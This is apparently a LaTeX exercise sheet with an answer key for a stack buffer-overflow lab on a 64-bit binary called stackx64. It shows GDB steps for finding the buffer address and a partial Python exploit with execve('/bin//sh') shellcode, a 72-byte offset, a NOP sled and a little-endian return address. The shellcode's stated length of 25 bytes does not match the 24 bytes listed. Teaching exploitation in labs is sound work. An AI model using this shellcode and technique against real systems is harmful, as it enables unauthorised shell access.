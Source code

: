 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Answer}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[StackX64 Project]
\begin{enumerate}
\item[\textbf{3c)}] Execute the exploit:
\begin{lstlisting}[style=GDBStyle]
(python3 exploit_phase3.py ; cat) | ./stackx64
\end{lstlisting}
The \texttt{; cat} keeps \texttt{stdin} open to interact with the obtained shell. Verify that you get a shell by typing \texttt{whoami}.

\item[\textbf{3d)}] Explain why the return address must be written in \textbf{little-endian}. Convert the address \texttt{0x7fffffffde10} to little-endian.
\end{enumerate}

\begin{attention}
Addresses may be \textbf{different} between GDB and direct execution. GDB adds environment variables that shift the stack. If the exploit works in GDB but not outside, adjust the address (typically a few dozen bytes difference).
\end{attention}

\begin{correction}

\textbf{3a)} In GDB:
\begin{lstlisting}[style=GDBStyle]
(gdb) break vulnerable_function
(gdb) run
(gdb) disassemble
   ...
   0x000000000040120e <+24>:  lea    rax,[rbp-0x40]   ; buffer = rbp - 0x40
   ...
(gdb) next   (until after gets)
(gdb) print $rbp - 0x40
$1 = (void *) 0x7fffffffde10
\end{lstlisting}
The buffer address is \texttt{0x7fffffffde10}.

\textbf{3b)} Python3 script for the exploit:
\begin{lstlisting}[style=CStyle,language=Python,title=exploit\_phase3.py]
import sys

# Shellcode execve("/bin//sh", NULL, NULL) - 25 bytes
shellcode = (
    b"\x48\x31\xf6"
    b"\x56"
    b"\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
    b"\x57\x54\x5f"
    b"\x48\x31\xd2"
    b"\xb0\x3b"
    b"\x0f\x05"
)

offset = 72          # buffer(64) + saved RBP(8)
nop_size = offset - len(shellcode)  # 72 - 25 = 47

# Address inside the NOP sled (middle of buffer)
# Adjust this address based on your GDB output
ret_addr = 0x7fffffffde10 + 20  # point to middle of NOP sled

nop_sled = b"\x90" * nop_size
addr_bytes = ret_addr.to_bytes(8, byteorder='little')


\end{lstlisting}
\end{correction}
\end{exercice}
\end{document}
